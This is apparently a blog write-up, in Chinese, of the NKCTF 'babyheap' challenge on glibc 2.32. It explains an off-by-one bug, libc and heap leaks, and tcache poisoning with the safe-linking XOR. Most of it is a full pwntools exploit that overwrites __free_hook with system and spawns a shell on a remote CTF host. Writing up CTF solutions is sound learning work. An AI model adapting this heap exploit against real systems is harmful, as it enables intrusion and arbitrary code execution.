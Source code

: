 ```yaml
---
title: nkctf_babyrop
date: 2023-03-26 22:12:09
categories: 
- pwn_wp
tags: 
- pwn
- heap


---
```


nkctf的babyheap，用的glibc2.32，与前面的版本相比在`tcache`中加入的异或加密。这里的`tcache`也有了计数器，会记录`chunk`的个数。

但因为本地没有2.32的包，有点难调试，先按2.31写了再改为2.32的打远程。

<!-- more -->

在`my_read`里面有`off by one`。

思路挺常规的，先用`unsorted bin`泄露`libcbase`和`heapbase`，之后通过`off by one`修改`size`造成`overlapping`，通过修改`tcache`中`chunk`的`fd`指向`__free_hook`来把`__free_hook`申请出来，修改为`system`。

只是glibc2.32要注意`tcache`的异或加密，`new_fd=fd^(heapbase>>12)`。

这里的`tcache`也有了计数器，会记录`chunk`的个数，不过只要多释放一个再改第一个的`fd`就好了。

**exp:**

```py
from pwn import*
context(log_level='debug',os='linux',arch='amd64')
filename='pwn'
elf=ELF('./'+filename)
# libc=ELF('../story_attachment/libc.so.6') #local
libc=ELF("./libc-2.32.so") # remote
# p=process('./'+filename)
p=remote('node2.yuzhian.com.cn',)

s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {}'.format(name, addr))

def debug(cmd='\n'):
  gdb.attach(p,cmd)
  pause()
    
def add(idx,size):
    ru("Your choice: ")
    sl("1")
    ru("Enter the index: ")
    sl(str(idx))
    ru("Enter the Size: ")
    sl(str(size))

def delete(idx):
    ru("Your choice: ")
    sl("2")
    ru("Enter the index: ")
    sl(str(idx))

def edit(idx,content):
    ru("Your choice: ")
    sl("3")
    ru("Enter the index: ")
    sl(str(idx))
    ru("Enter the content: ")
    s(content)

def show(idx):
    ru("Your choice: ")
    sl("4")
    ru("Enter the index: ")
    sl(str(idx))

add(0,0x28)
add(1,0x28)
add(2,0x80)
for i in range(8):
    add(i+3,0x80)
add(11,0x28)

payload=b'a'*0x28+b'\x61'
edit(0,payload)
delete(1)
add(1,0x58)

# leak heap_base and libc
for i in range(3,10):
    delete(i)
    
delete(2)
delete(10)

payload=b'a'*0x30+b'\n'
edit(1,payload)
show(1)
ru('\n')

# pause()
# sleep(0.1)

libc_addr=(uu64(ru('\n')[:-1])<<8)
libcbase=libc_addr-0x60-0x10-libc.sym['__malloc_hook']
leak("libcbase",hex(libcbase))
leak("libc_addr",hex(libc_addr))
pause()

free_hook=libcbase+libc.sym['__free_hook']

payload=b'a'*0x37+b'\n'
edit(1,payload)
show(1)
ru("\n")
heap_addr=uu64(ru("\n")[:-1])
heapbase=(heap_addr>>12)<<12

leak("libcbase",hex(libcbase))
leak("heapbase",hex(heapbase))

payload=b'a'*0x28+p64(0x90)+p64(libc_addr)+p64(heapbase+0x770)+b'\n'
edit(1,payload)

for i in range(7):
    add(i+3,0x80)

add(10,0x80)
# leak("libcbase",hex(libcbase))
# leak("heapbase",hex(heapbase))
# debug()
add(2,0x80)

delete(10)
delete(2)
payload=b'a'*0x28+p64(0x90)+p64(free_hook^(heapbase>>12))+p64(heapbase+0x770)+b'\n'
edit(1,payload)
add(12,0x80)
add(2,0x80)

# overwrite free_hook
payload=p64(libcbase+libc.sym['system'])+b'\n'
edit(2,payload)
edit(12,b"/bin/sh\x00\n")
delete(12)

itr()
```

